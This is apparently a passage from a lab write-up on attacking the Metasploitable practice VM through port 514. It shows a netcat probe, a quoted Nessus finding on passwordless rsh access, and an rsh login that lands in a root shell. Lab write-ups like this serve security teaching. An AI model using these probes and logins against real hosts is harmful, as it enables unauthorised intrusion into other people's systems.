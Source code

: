 > TCP Wrapper is a host-based networking access control list system, used to filter network access to Internet Protocol servers on (Unix-
> like) operating systems such as Linux or BSD.  (Wikipedia)

So we can conclude the port is protected by TCP Wrapper. If we try to netcat to the port, we see this:

``` plain
nc -vvn 192.168.127.154 514

(UNKNOWN) [192.168.127.154] 514 (shell) open
```

I ran a Nessus scan against the target, and according to the report, a critical vulnerability is present on this port:


**rsh Unauthenticated Access (via finger Information)**

**Synopsis**

It was possible to log on this machine without password.

**Description**

Using common usernames as well as the usernames reported by 'finger', Nessus was able to log in through rsh. Either the accounts are not protected by passwords or the ~/.rhosts files are not configured properly.

This vulnerability is confirmed to exist in Cisco Prime LAN Management Solution, but could be present on any host that is not securely configured.

**Port**  
tcp/514


So all we have to do is log in via the remote shell program:

``` plain
rsh 192.168.127.154

Last login: Wed May  7 11:00:37 EDT 2014 from :0.0 on pts/0

Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by

applicable law.

To access official Ubuntu documentation, please visit:

http://help.ubuntu.com/

You have mail.

root@metasploitable:~#
```
